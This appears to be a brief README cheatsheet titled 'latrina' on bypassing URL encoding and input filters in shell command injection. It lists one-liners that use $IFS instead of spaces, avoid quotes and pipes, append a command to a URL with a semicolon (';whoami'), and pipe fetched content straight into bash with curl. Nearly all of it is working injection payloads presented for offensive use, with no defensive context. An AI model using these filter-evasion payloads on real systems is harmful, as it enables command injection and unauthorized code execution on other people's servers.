 # latrina
bypass url encoding for nontrivial shell commands and other copy-paste nightmares

# cheatsheet  
### setting string variables without quotes    
`variable=('a')`  
### separating fields without spaces 
`echo$IFS$a`
### separating fields without spaces or curly brackets
`a=('a');echo$IFS$a` 
### piping without pipes  
`wc$IFS-l$IFS<$IFS<(ls)`     
### starting code execution in a url without ampersand
`curl http://localhost/;whoami`
### redirecting to a hidden exploit (localhost/bin/bash)
`curl -s http://localhost/$0 | bash`
